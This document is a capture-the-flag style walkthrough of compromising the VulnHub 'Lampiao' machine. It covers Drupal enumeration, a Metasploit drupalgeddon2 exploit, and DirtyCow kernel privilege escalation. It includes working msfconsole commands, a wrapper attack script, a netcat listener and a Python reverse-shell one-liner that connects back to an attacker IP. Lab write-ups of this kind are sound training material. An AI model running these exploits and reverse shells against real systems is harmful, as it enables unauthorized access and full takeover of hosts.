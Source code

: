#Reconnaissance 
Nmap scan. 
Found port 1898 open, which was found to be running drupal
Looked for Drupal enumeration apps and was able to find "Drupwn" on github. Installed and executed, discovering the running version was likely to be 8.x


#InitialAccess
Searchsploit contained several entries for "DrupalGeddon"

msfconsole
search drupal
```
msfconsole -x "use exploit/unix/webapp/drupal_drupalgeddon2;\
set payload php/meterpreter/bind_tcp;\
set rport 1898;\
set rhost $tgt;\
exploit;\
cd ~/toolz;\
upload ~/toolz/les.sh /tmp/"
```

 #Discovery 
After  executing a large number of manual enumeration steps, checked other guides. The majority of users achieved root by using the Linux Exploit Suggester script, which feels sort of cheap compared to the typically OffSec box (granted, this is vanilla vuln-hub).

uname -a output
```
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
searchsploit 4.4.0 nets the following
![[Pasted image 20220609223956.png]]

- Several of the Ubuntu related exploits are inapplicable as they apply to version 16.04
- Chocoboroot fails due to the arch not being applicable (i686)


#PrivilegeEscalation
Running the following generates a low priv shell and uploads the applicable dirtyc0w payload

```
#/bin/bash
# filename: lampiao_low_priv.sh
rhost=${1}
msfconsole -x "use exploit/unix/webapp/drupal_drupalgeddon2;\
	set payload php/meterpreter/bind_tcp;\
	set rport 1898;\
	set rhost $tgt;\
	exploit;\
	cd ~/toolz;\
	upload ~/toolz/les.sh /tmp/"

```

From attacker computer, set up listener for stable reverse shell
```
nc -lvp 7777
export tgt={target ip address}
```

And in another shell execute
```
./lampiao_low_priv.sh $tgt


# meterpreter cmds
upload DirtyCow.c /tmp/dcow.c
shell

# on lampiao
cd /tmp
gcc dcow.c -o dc -pthread
chmod +x dc
./dc 

# executing binary interrupts flow here. Have to manually copy and paste 
# these commands, unless there's a way to modify the payload to execute 
# them automatically. (likely)

echo 0 > /proc/sys/vm/dirty_writeback_centisecs
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.49.75',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
whoami
```